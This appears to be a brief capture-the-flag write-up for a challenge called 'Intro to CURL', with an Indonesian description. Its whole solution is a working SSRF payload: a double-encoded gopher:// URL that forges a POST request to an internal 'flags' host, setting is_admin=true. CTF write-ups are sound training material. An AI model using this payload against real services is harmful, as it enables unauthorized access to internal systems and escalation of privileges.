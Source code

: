 # Intro to CURL
Description:
```
Gaada sih cuman curl aja.
```
# Solve
SSRF with Gopher.
```
gopher://flags:80/_POST%2520/%2520HTTP/1.1%250D%250AHost:%2520flags%250D%250AContent-Length:%252013%250D%250AContent-Type:%2520application/x-www-form-urlencoded%250D%250A%250D%250Ais_admin=true
```